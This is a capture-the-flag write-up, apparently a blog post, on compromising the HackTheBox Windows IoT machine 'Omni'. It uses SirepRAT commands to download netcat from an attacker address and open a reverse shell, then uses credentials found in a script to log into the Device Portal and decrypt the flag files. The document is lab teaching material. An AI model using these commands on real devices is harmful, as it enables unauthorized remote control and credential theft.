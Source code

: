 ```yaml
---
layout: post
title:  "HackTheBox - Omni"
date:   2021-01-10 22:00:00 +1100
categories: [CTF, HTB]
tags: [ctf, htb, windows-iot]
---
```


![Image of info card](/images/htb/omni/info-card.png)


# Enumeration
---

## Initial Information

Based on the information provided by HackTheBox, Omni is rated as easy difficulty and is running an unknown Operating System.

## Editing hosts
A domain name can be assigned to the ip address localy in the `/etc/hosts` file to assist in refering to the machine.

```
sudo vim /etc/hosts
[ip] omni.htb
```

## Nmap scan

For scanning the system's TCP ports with nmap, an initial port scan is run which only focuses on finding open ports. The open ports detected are then used in a second scan where the -A flag is used to Enable OS detection, version detection, script scanning, and traceroute.

```
sudo nmap -A -T4 -Pn -oN nmap-scan-all -p$(sudo nmap -p- --min-rate=1000 -T4 omni.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) omni.htb
```

![Image of nmap](/images/htb/omni/nmap.png)

Nmap reveals that port 135, 5985, 8080, 29817, 29819 and 21820 are open. 

Port 8080 shows itself as a upnp service however the version is Microsoft IIS httpd and reveals information about a Windows Device Portal.

Not knowing what this was I searched it up and the first result was regarding Window IoT.

The first search for Windows 10 device portal leads to: Windows Device Portal - Windows IoT &#124; Microsoft Docs (https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal)

Looking at some of the other results, it seems that it's not limited to Windows IoT however I'm enclined to beleive it is running it since that would explain why HackTheBox didn't tell us the Operating System.


# Exploitation
---

## Discovery

Searching online the service

Mentions of Windows 10 IOT exploits:
https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/
https://www.bleepingcomputer.com/news/security/windows-10-iot-core-test-interface-lets-attackers-take-over-devices/


## Exploiting

The articles talk about an exploit using the tool SirepRAT https://github.com/SafeBreach-Labs/SirepRAT

Using the tool we can upload a copy of netcat then execute it to recieve a reverse shell.

Upload nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-WebRequest 'http://10.10.14.145/nc64.exe' -OutFile 'C:\nc64.exe'" --v
```

![Image of sireprat upload](/images/htb/omni/sireprat-upload.png)

Run nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc64.exe 10.10.14.145 4444 -e cmd.exe" --v
```

![Image of sireprat exploit](/images/htb/omni/sireprat-run.png)

NOTE: Running nc.exe gives the error message:
> This version of C:\nc.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.

I downloaded nc64.exe from https://eternallybored.org/misc/netcat/ which works


# Post Enumeration

With the OS likely being Windows IOT, a lot of commands are missing such as whoami and

Commands such as whoami and systeminfo didn't exist and running them over the network encounters errors, same with winPEAS.

Using powershell we can view the OS version
```
PS C:\windows\system32> [System.Environment]::OSVersion.Version[System.Environment]::OSVersion.Version
```

![Image of os info](/images/htb/omni/osinfo1.png)


Alternative
```
PS U:\Users\app> $Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
$Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
PS U:\Users\app> Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
```

![Image of os info](/images/htb/omni/osinfo2.png)

Looking at the files in `Program Files\WindowsPowershell\Modules\PackageManagement` show scripts with saved credentials in r.bat

![Image of rbat](/images/htb/omni/powershell-rbat.png)

We can try to log inot the web portal with those credentials, then running a command on the site we can try to get aa reverse shell.


# Privilege Escalation

Logging into the web portal with the credentials.

![Image of wdp auth](/images/htb/omni/wdp-auth.png)

![Image of wdp home](/images/htb/omni/wdp-home.png)

Under Processes theres a run command

![Image of wdp cmd](/images/htb/omni/wdp-run.png)

from there we can run a netcat command to get a reverse shell as the logged on user.

Host a netcat listener
```
nc -nlvp 4444
```

Run netcat on Omni to connect back to us.
```
C:\nc64.exe 10.10.14.145 4444 -e cmd.exe
```

![Image of wdp user](/images/htb/omni/wdp-user.png)

Check user with $env:Username

Now that we know we are logged in as the user, we should be able to decrypt the flag.

Contents of user.txt is encrypted

```
$credential = Import-CliXml -Path U:\Users\app\user.txt

$credential.GetNetowrkCredential().Password
```

![Image of wdp flag](/images/htb/omni/user-flag.png)

It successfully decrypts and displays the user flag.

## Getting Root

To get root, follow the same steps as the user but log into the Windows Device Portal with the Admin credentials.

To decrypt the secure string you can use powershell code found on [hacktricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#secure-string-to-plaintext)

```
$credential = Import-CliXml -Path U:\Users\administrator\root.txt

$credential.GetNetowrkCredential().Password
```

![Image of root flag](/images/htb/omni/root-flag.png)

# Problems Encountered

Some of the problems I encountered were:

- Identifying Windows version/running commands
- The version of netcat to use on Omni as I normally use the version of netcat that comes with kali in the windows binaries folder.
- Getting SirepRAT to work

# Conclusion

This was certainly an interesting box. I found it harder than most other easy difficulty boxes because I hadn't touched the technologies involved (windows iot, SirepRAT, Windows Device Manager, windows encrypted passwords)